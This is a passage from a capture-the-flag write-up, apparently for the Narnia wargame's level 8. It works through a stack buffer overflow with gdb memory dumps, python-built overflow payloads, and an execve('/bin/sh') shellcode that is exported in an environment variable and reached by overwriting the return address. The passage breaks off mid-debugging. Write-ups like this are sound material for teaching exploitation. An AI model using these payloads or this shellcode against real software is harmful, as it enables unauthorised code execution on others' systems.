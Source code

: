 ```
0xffffd6a0:     0xffffd8a0      0x00000000      0x080484b9      0xf7fceff4
-- omitted output --
0xffffd880:     0x00000000      0x00000000      0x672f0000      0x73656d61
0xffffd890:     0x72616e2f      0x2f61696e      0x6e72616e      0x00386169
0xffffd8a0:     0x41414141 <--  0x41414141      0x41414141      0x41414141 - Location of blah
0xffffd8b0:     0x41414141      0xffffd8b0      0x41414141      0x41414141
0xffffd8c0:     0x41414141      0x42424242      0x45485300      0x2f3d4c4c
0xffffd8d0:     0x2f6e6962      0x68736162      0x52455400      0x74783d4d
```

So we weren’t able to overwrite the RET with the new input. This is because as we increase the length of the input, the location of blah changes. Which means we just need to update the memory address in the input.

```
(gdb) r $(python -c'print("\x41"*20 + "\xa0\xd8\xff\xff" + "\x41"*12 + "\x42"*4)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia8 $(python -c'print("\x41"*20 + "\xa0\xd8\xff\xff" + "\x41"*12 + "\x42"*4)')
 
Breakpoint 1, 0x08048467 in func ()
(gdb) x/50wx $esp
0xffffd660:     0x08048580      0xffffd678      0x00000014      0xf7fceff4
0xffffd670:     0x080484b0      0x08049794      0x41414141      0x41414141
0xffffd680:     0x41414141      0x41414141      0x41414141      0xffffd8a0
0xffffd690:     0x41414141      0x41414141      0x41414141      0x42424242 <-- RET Address
0xffffd6a0:     0xffffd8a0      0x00000000      0x080484b9      0xf7fceff4
```

We have now successfully overwritten the RET address with 4 B’s and now all that is left to do is to attach the shellcode. The only option we have is to place the shellcode in an environmental variable, because the smallest amount of bytes needed for a “/bin/sh” shellcode I’ve seen and used is 25 bytes. In the below section, I go through the process of creating an Environmental variable containing the shellcode and then I just use GDB to have a look at the stack to find the shellcode.

 

```
export SC=$(python -c'print("\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80")')
```

```
-- omitted output --
0xffffdef8:     0x494c0038      0x3d53454e      0x53003236      0x90903d43
0xffffdf08:     0x90909090 <--  0x90909090      0x90909090      0x90909090 - Start of shellcode
0xffffdf18:     0x90909090      0x90909090      0x90909090      0x6850c031
0xffffdf28:     0x68732f2f      0x69622f68      0x50e3896e      0x89e18953
0xffffdf38:     0xcd0bb0c2      0x4f480080      0x2f3d454d      0x656d6f68
0xffffdf48:     0x72616e2f      0x3861696e      0x4c485300      0x313d4c56
0xffffdf58:     0x474f4c00      0x454d414e      0x72616e3d      0x3861696e
0xffffdf68:     0x48535300      0x4e4f435f      0x5443454e      0x3d4e4f49
-- omitted output --
```
```
(gdb) r $(python -c'print("\x41"*20 + "\xa1\xd8\xff\xff" + "\x41"*12 + "\x08\xdf\xff\xff")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
 
Starting program: /games/narnia/narnia8 $(python -c'print("\x41"*20 + "\xa1\xd8\xff\xff" + "\x41"*12 + "\x08\xdf\xff\xff")')
 
Breakpoint 2, 0x08048467 in func ()
(gdb) x/50wx $esp
0xffffd660:     0x08048580      0xffffd678      0x00000014      0xf7fceff4
0xffffd670:     0x080484b0      0x08049794      0x41414141      0x41414141
```